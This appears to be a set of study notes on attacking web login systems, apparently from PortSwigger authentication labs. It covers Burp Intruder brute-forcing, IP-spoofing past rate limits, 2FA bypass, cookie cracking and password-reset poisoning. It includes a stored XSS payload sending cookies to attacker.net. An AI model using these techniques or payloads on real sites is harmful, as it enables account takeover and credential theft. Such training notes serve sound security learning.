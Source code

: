 # password-based login

## Brute-force attacks

### Brute-forcing usernames
##### via different responses:
>1) *in the `POST /login` request*: `username=§invalid-username§`
>2) *Payload*: *Sniper* -> wordlist
>3) **Length** *column* -> different response :  `Invalid username`/`Incorrect password` 
>   => username achieved
>4) `username=identified-user&password=§invalid-password§`
>5) `200` status code except for one, which got a **`302`** 
>   => password achieved

##### via _subtly_ different responses:
> **Settings** tab -> **Grep - Extract**, click Add -> `Invalid username or password`
> *one of the responses contains* **typo**: full stop/period -> trailing space 
> => username achieved
> ...

##### via response timing
> 1) IP gets blocked after several request 
> **`X-Forwarded-For`** header is supported -> *IP spoof*
> 2) use a very *long password* for password field (*time consuming* to proccess)
> 3) *payload*: *Pitchfork* 
>    - `X-Forwarded-For`: Numbers
>    - `username`: wordlist
>    Columns -> **Response received** and **Response completed** -> significant difference 
>    => username achieved
> 4) *payload*: *Pitchfork* 
>    - `X-Forwarded-For`: Numbers
>    - `password`: wordlist
>      -> `302` status
>      => password achieved

## Flawed brute-force protection

##### IP block:
  > **Resource pool** -> *maximum concurrent requests* set to **`1`**
  > - *payload*: *Pitchfork*: 
  >   - `username`: a wordlist which *alternates* between your username and the target
  >   - `password`: a wordlist which *alternates* between your password and a different wordlist for bruteforce the target

##### account lock:
> - *payload*: *Cluster bomb*:
>   - `username`: candidates of valid username
>   - `password`: same password but for each username repeated untill the rate limit gets reached -> **null payload**
>    => `username=§invalid-username§&password=example§§`
> - *`You have made too many incorrect login attempts`*
>   - => username achieved
> - *payload*: *sniper*:
>   - *Grep - Extract* -> the message
>   - `password`: wordlis
>     -> one has no error message 
>     => password achieved
# multi-factor authentication
## Bypassing two-factor authentication

##### simple bypass:
> 1) Log in using the victim's credentials
> 2) When prompted for the verification code -> load `/my-account`  => bypassed :)

##### broken logic:
1) user's logs in:
```http
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```
2) a cookie gets assigned that relates to their account:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
3) this cookie to determine which account the user is trying to access -> attacker logs in with their own credential then changes the value of the cookie :
```http
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```
=> attacker can use _his own verification code_ OR _brute force_ it
###### ex:
>1) login with your account 
>2) `POST /login2` request -> `verify` parameter:determines the user's account 
>3) logout
>4) complete the first step -> change the `verify` paramter to target's username -> brute force `mfa-code` parameter 
>   -> 302
>   => bypassed...

# other authentication mechanisms
## Keeping users logged in

##### brute-force:
> 1) *`stay-logged-in` cookie*: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcwCg==`
>    base 64 decode -> `wiener:51dc30ddc473d43a6011e9ebba6ca770` 
>    online cipher identified -> `base64(username+':'+md5HashOfPassword)`  
> 2) *Payload*: *Sniper* -> wordlist
> Under **Payload processing**:
>    - Hash: `MD5`
>    - Add prefix: `(target's username):`
>    - Encode: `Base64-encode`
>- => access to `update email` button in `/my-account` page = cookie generated.

##### offline password cracking:
> 1) `stay-logged-in` cookie -> base64 decode =>`username+':'+md5HashOfPassword`  
> 2) steal the target's cookie from the *comment section* using **XSS**:
>    stored XSS payload -> `<script>document.location='//attacker.net/'+document.cookie</script>`
>    => `carlos:26323c16d5f4dabff3bb136f2460a943`
> 3) bruteforce the password with **hashcat** 
>    => password achieved 

## Resetting user passwords

##### broken logic:
> 1) click the **Forgot your password?**
> 2) request: `POST /forgot-password?temp-forgot-password-token`
> 3) *delete `temp-forgot-password-token` parameter* in both the URL and request body
> 4) Change the `username` parameter to the target's username.
>    => account takeover...

##### password reset poisoning via middleware:
>- **`X-Forwarded-Host`** *header* is supported => `X-Forwarded-Host: attacker.site`
>  => victim's token sent as a query parameter in a `GET /forgot-password` request.
>- change the value of the `temp-forgot-password-token` parameter to the value that you stole from the victim
>  => account takeover
## Changing user passwords
##### password brute-force:
> 1) *difference between error messages when you enter* **two different new passwords**: 
>     `Current password is incorrect` => invalid password
>     `New passwords do not match` => valid password 
> 2) *Payload*: *Sniper* -> wordlist:
>    `username`: target's username
>    Settings tab: Grep - match rule
>    => `username=carlos&current-password=§FUZZ§&new-password-1=123&new-password-2=abc`
